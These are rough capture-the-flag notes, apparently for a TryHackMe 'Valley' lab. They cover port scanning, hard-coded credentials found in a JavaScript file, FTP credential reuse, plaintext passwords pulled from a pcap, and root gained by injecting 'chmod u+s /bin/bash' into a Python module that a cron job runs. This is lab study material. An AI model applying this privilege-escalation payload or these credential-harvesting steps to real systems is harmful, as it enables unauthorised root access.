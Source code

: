 # ip 
	10.10.170.77
# nmap
	# 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)

	# 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
	|_http-server-header: Apache/2.4.41 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	# 37370/tcp open  ftp     vsftpd 3.0.3
	Service Info: OS: Unix



# dir
	/gallery/
	/index.html
	/static/
	/pricing

# notes

	in /static/00
		dev notes from valleyDev:
		-add wedding photo examples
		-redo the editing on #4
		-remove /dev1243224123123
		-check for SIEM alervall


in the /dev1243224123123 
	we find login page 
	check the source we find dev.js
		username === "siemDev" && password === "california"
		

		/dev1243224123123/devNotes37370.txt:
			dev notes for ftp server:
			-stop reusing credentials
			-check for any vulnerabilies
			-stay up to date on patching
			-change ftp port to normal port


use the crenditals to ftp in 37370
	
in the siemHTTP2.pcapng in http we find 

uname=valleyDev&psw=ph0t0s1234

lets ssh it 

valleyDev: ph0t0s1234
# shell

valleyAuth..

strings 

e6722920bab2326f8217e4: liberty123


get the valley user

valley: liberty123


we find in crontab the python script run 

we catn edit it but we can got to the base64 script and edit it 
add 

import os
os.system("chmod u+s /bin/bash")

after a minute we see the /bin/bash add our user to the file 
run bash -p

###### we get the root! ###### 




# flags
	user.txt: THM{k@l1_**lley}
	root.txt: THM{v@lley**_pr1v3sc}


















